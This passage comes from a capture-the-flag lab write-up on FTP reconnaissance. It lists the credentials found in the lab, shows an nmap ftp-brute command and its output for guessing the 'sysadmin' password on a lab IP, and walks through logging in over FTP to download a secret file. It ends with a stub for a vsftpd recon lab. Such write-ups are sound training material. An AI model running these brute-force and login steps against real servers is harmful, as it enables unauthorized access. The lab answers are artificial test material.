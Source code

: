> 📌 Found credentials are:
>
> `sysadmin:654321` `rooty:qwerty` `demo:butterfly` `auditor:chocolate` `anon:purple` `administrator:tweety` `diag:tigger`

* Use [nmap ftp-brute script](https://nmap.org/nsedoc/scripts/ftp-brute.html) to find the `sysadmin`'s password

```bash
echo "sysadmin" > users
```

```bash
nmap --script ftp-brute --script-args userdb=/root/users -p21 192.217.238.3
```

```bash
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     sysadmin:654321 - Valid credentials
|_  Statistics: Performed 23 guesses in 6 seconds, average tps: 3.8
```

* Extract the 7 flags hidden on the server by logging in to the `ftp` server with each found user

```bash
ftp 192.217.238.3

ftp> ls
ftp> get secret.txt
ftp> exit

root@attackdefense:~# cat secret.txt 
```

<details><summary>Reveal Flag - sysadmin flag is: 🚩</summary></details>

<details><summary>Reveal Flag - rooty flag is: 🚩</summary></details>

<details><summary>Reveal Flag - demo flag is: 🚩</summary></details>

<details><summary>Reveal Flag - auditor flag is: 🚩</summary></details>

<details><summary>Reveal Flag - anon flag is: 🚩</summary></details>

<details><summary>Reveal Flag - administrator flag is: 🚩</summary></details>

<details><summary>Reveal Flag - diag flag is: 🚩</summary></details>

### VSFTPD Recon: Basics

#### Lab 2

> 🔬 [VSFTPD Recon: Basics](https://attackdefense.com/challengedetails?cid=519)
>
> * Target IP: `192.119.169.3`
> * Enumeration of [vsftpd](https://security.appspot.com/vsftpd.html) server

